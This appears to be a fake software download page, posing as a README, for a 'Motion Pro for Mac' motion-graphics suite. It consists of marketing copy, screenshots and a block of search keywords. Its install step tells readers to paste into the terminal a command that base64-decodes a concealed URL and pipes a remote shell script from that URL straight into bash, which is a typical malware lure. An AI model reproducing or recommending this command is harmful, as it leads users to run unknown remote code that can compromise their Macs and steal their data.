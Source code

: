 # Motion for Mac Download - Ultimate Motion Graphics Design Suite

![Motion Pro Screenshot](https://static.macupdate.com/screenshots/333424/m/motion-screenshot.png)

---

### 🔽 Download Motion Pro for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Motion Pro for Mac?

Motion Pro is a cutting-edge motion graphics software crafted exclusively for macOS, empowering creators to design cinematic titles, breathtaking visual effects, and dynamic animations with studio-grade precision. This powerhouse tool transforms complex motion design into an intuitive workflow, making it indispensable for video editors, motion designers, and digital artists.

Unlike basic animation tools, Motion Pro features a real-time rendering engine that instantly previews your creations without lag. Its advanced 3D particle system and typography tools let you craft everything from sleek broadcast graphics to explosive VFX sequences. Optimized for Apple Silicon (M1/M2 chips), it delivers buttery-smooth performance even with 4K/8K projects.

With seamless integration into Final Cut Pro and over 600 professionally designed templates, Motion Pro eliminates the steep learning curve of traditional motion software. Whether you're enhancing YouTube videos, creating AR filters, or producing TV commercials, it provides the tools to make your imagination move.

![Motion Pro Workspace](https://images.sftcdn.net/images/t_app-cover-s-16-9,f_auto/p/27330fc4-9b35-11e6-9747-00163ec9f5fa/2436659493/motion-screenshot.jpg)

---

## Key Features & Benefits

- 🎞️ Hollywood-grade motion graphics toolkit  
- ⚡️ Metal-powered real-time rendering  
- 🌀 600+ customizable templates & presets  
- 🖥️ Apple Silicon (M1/M2) optimized  
- ✨ Advanced 3D text & particle systems  
- 🤝 Final Cut Pro seamless integration  

From social media animations to feature film VFX, Motion Pro turns creative concepts into mesmerizing motion masterpieces.

---

## 🔍 Keywords 
 
Motion for Mac, Motion Mac Download, Motion for Mac Download, Motion Mac, Motion Download Mac, Motion Download for Mac, motion full version, Mac Download Motion, Download Mac Motion, Download Motion Mac, Download Motion for Mac
